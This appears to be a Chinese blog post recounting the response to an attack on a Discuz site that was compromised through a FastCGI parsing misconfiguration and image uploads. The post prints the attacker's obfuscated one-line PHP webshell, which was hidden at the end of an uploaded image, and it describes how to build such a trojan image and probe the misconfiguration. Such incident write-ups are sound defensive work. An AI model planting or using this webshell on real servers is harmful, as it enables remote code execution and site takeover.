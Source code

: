 ```yaml
---
layout: post
title: 记处置一起因fastcgi代码执行漏洞引发的攻击事件
categories:
- 今日头条
tags:
---
```

最近也不知道怎么回事，我们自己的网站没有被黑，反倒是认识的一些朋友的网站被黑，要么是报复性攻击要么就是为了实现自己的经济利益；比如挂赌博网站的马，恶意使得网站跳转到非法网站，真是多事之秋。

事件背景

一个跟我关系很不错的朋友，也是我的老乡，今天上午跟我说他的网站中有一个会员在QQ上联系他，威胁他不让解封网站账号就有不良后果，诸如说什么去工信部举报之类的。而他的网站是资源下载类网站，现在日IP近万，也有不错的收益，而且在国内只要是资源下载类网站或多或少都有些问题，比如有的资源可能涉及侵权之类的。他自己还是挺担心的，担心真的被举报，即便他网站不存在什么严重违法问题，但有时候多一事不如少一事，就像我的网站当初因为会员发布一篇关于微软的文章被发律师函但没有注意，结果域名被hlod了。

但是没想到，还没等到那个人上午的威胁到来，结果现实的威胁却人了。中午的时候他就跟我说网站被攻击了，访问网站后15s后跳转到某色情网站。而他一个以运营见长，技术是他短板的人，却很快找到根目录下的index.php文件开头被插入恶意跳转代码。很显然，事情没有这么简单，就算他把其中的恶意代码删除，攻击者还是可以继续攻击，因为根源压根就不在这个地方。

![](http://p1.pstatp.com/large/96c0008f78a8845b520)

而他的网站就是基于Discuz创建的，基本上就是Discuz本身的状态，也就是说就算站点存在漏洞也不是他创造了这样的漏洞。基于这个时间点，他非常怀疑该事件与上午那个威胁者有关，但一时也不知道如何从根本上处理该问题。

问题处理

我首先要他做一个基本的验证操作，就是比对网站web程序看下近期是否被篡改，结果得到的反馈是并没有。然后，他跟我说他的阿里云后台里边有提示网站受攻击，但对于他自己也不知道如何分辨，因为很多被提示的攻击其实对网站是不存在影响的，比如很多针对某些开源编辑器的攻击，但他的网站压根没有使用，这样的攻击再多也不会被攻破的，最多变成dos攻击了，呵呵。我问了他几个上面提示的细节，比如要他注意有chr方法的地方，但看了之后还是觉得不是该事件的问题。

然后我干脆问他要了阿里云的账号，处于对我的信任他毫不犹豫给我了，我进入阿里云后台，因为我之前就利用阿里云提供的安全监控工具快速定位攻击事件，这比自己另外去找效率高得多。结果在“弱点”（其实就是漏洞）这个提示项中发现连续好几个高危提示，都是“fastcgi 代码执行漏洞”。

![](http://p1.pstatp.com/large/9aa0000e7d84cf696e5)

那这是一个什么漏洞呢？据了解该漏洞一般不是web程序引起的，而一般是由于web服务器配置不当引起的，比如nginx、iis等；该漏洞会使得一些不安全的文件被当做可执行的文件执行。非常典型的就是在图片中植入攻击代码，然后上传该图片到服务器，再利用该漏洞执行图片中的攻击代码。下面的图片就是验证该漏洞的，在根目录下robots.txt是搜索引擎协议文件，显然是正常的，但是加上/x.php访问安全状态是不能够被访问的，但他这里可以直接被访问，这漏洞表现得一览无余。

![](http://p3.pstatp.com/large/9700008f838d305d449)

我于是要他给我一个有上传图片权限的网站账号给我来测试，说到这里；他又跟我补充了一个细节：那就是上午那个威胁他的人对应的账号，从注册开始除了传图片外啥都没做。到了这里我越发感觉问题就是在这个地方。

我在本地制作一个带有一句话php执行木马的图片，用cmd命令行合并一个jpg图片和一个写有一句话木马的php文件。

![](http://p3.pstatp.com/large/9aa0000e7d6e81cfe6b)

然后利用他给我的用户账户上传文件（其实他的网站任意注册用户都有上传图片权限），结果这张带有木马的图片顺利上传到网站服务器中；这张图片很明显是带有木马的，这不用再看了。这时候我要他提供一张攻击者账户上传的图片给我。结果是一张这样的图片：

![](http://p1.pstatp.com/large/9700008f831bd46cab9)

呵呵，你丫是表情包呢，结果他说那个人传的都是类似这种风格的，尼玛，我也是醉了。用16进制查看器打开该文件，结果几乎让我可以完全确定该攻击源于此了：

![](http://p3.pstatp.com/large/9aa0000e7dd85f63340)

可以非常明显得看到在结尾有一段非常明显的代码，而此代码之前应该才是正常图片的编码。这段代码如下：

 <?php $z = base64_decode('Y.X.N.z.ZXJ0');$z($_POST[666]);?>

到了这里真相就出来了，这是一个非常典型的一句话木马。

结语

该漏洞在阿里云官方有两种解决方案的（阿里云官方解决方案），除此之外我们可以升级web服务器版本至安全版本等等。实际上上面的过程仅此这个漏洞攻击者还是不能够实现攻击目标，比如如果不给他传图片也就不能在图片中插入代码并上传到服务器。所以攻与防总是一环扣一环的。不管对于攻击者还是防护者都是有较高要求的，对于攻击者而言，可以利用的破绽中缺少某个环节就是功亏一篑；而对于防护者而言，需要尽可能避免漏洞的出现，哪怕对于该漏洞本身来讲并不是什么高危漏洞，但依然可能被利用。

这里也不得不赞一下阿里云，我之所以赞它并不仅仅是因为上述过程中使用了它提供的安全监控工具。而是在这个过程中，其实我做了一个逆向的攻击重现，也就是重现一遍攻击过程（当然该过程相对攻击者攻击过程轻松许多，呵呵），在这个过程中实践了除该攻击流程本身之外的过程。比如直接把木马上传到服务器做基础攻击测试，这个地方就是我要赞阿里云的，木马文件刚上传，邮件马上就到来。

![](http://p1.pstatp.com/large/9aa0000e7de759eddb6)

虽然该测试木马是非常容易被识别的，但我要赞的是阿里云的这个通知速度，绝对杠杠的。这不是打广告，使用阿里云产品几年了，确实相对以前省了不少事情或者提高了不少事情的处理效率，比如我们这边文章所讲的。

最后想说的是，没有绝对的安全体系，要做的是最大可能避免不良事件的发生，最重要的是有防范于未然的安全意识！